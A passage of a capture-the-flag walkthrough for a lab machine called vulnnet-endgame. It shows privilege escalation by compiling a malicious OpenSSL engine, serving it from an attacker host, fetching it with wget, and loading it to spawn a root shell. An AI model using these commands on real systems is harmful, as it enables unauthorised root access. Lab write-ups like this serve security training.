 Compile into a shared object:

```bash
gcc -fPIC -o openssl-exploit-engine.o -c openssl-exploit-engine.c
gcc -shared -o openssl-exploit-engine.so -lcrypto openssl-exploit-engine.o
```

Host the compiled engine:

```bash
python3 -m http.server 8004
```

### Transfer & Execute Exploit on Target

On the target machine (`system@...:/home/system/Utils`), download and exploit:

```bash
system@vulnnet-endgame:~/Utils$ wget http://10.13.86.132:8004/openssl-exploit-engine.so
system@...:~/Utils$ chmod +r openssl-exploit-engine.so
system@...:~/Utils$ ./openssl req -engine ./openssl-exploit-engine.so
```

This command loads the malicious engine, it triggers `setuid(0)` + `system("/bin/bash")`, giving you a **root shell**.

### Validate Root & Capture Flag

Check you're root and read the flag:

```bash
root@vulnnet-endgame:/home/system/Utils# whoami && id
root uid=0(root) gid=0(root) groups=0(root)
```

---



